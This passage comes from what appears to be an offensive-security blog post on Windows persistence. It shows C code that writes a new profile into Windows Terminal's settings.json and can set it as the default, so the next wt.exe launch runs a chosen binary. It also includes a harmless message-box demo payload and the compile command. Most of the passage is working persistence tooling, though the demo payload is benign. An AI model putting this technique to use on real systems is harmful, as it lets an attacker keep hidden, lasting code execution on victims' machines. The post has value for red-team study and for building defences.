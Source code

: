 ```cpp
  if (replace_default_profile(&json, &blen, guid_b)) {
    printf("[+] defaultProfile set to %s\n", guid_b);
  } else {
    printf("[*] defaultProfile key not found (skipped)\n");
  }
#endif
 
  // write settings.json (preserve BOM state)
  if (!write_file_utf8(settingsPath, (const unsigned char*)json, blen, had_bom)) {
    fprintf(stderr, "[-] failed to write settings.json\n");
    free(json);
    return 1;
  }
 
  printf("[+] profile inserted.\n");
  printf("[+] GUID: %s\n", guid_b);
  printf("[+] commandLine: %s\n", escaped);
  printf("[i] open Windows Terminal -> 'meow' profile. or run: wt -p %s\n", guid_b);
 
  free(json);
  return 0;
}
```

The result? Next launch of `wt.exe` runs our binary.    

Binary as usual, `Meow-meow` messagebox payload `meow.c`:    

```cpp
/*
 * meow.c
 * persistence via
 * adding a Windows Terminal profile
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2025/09/20/malware-pers-29.html
*/

#include <windows.h>

int main() {
  MessageBoxA(NULL, "Meow-meow!!", "=^..^=", MB_OK);
}
```

### demo

Let's go to see everything in action.    

First of all, compiling "malicious" binary:      

```bash
x86_64-w64-mingw32-g++ -O2 meow.c -o meow.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

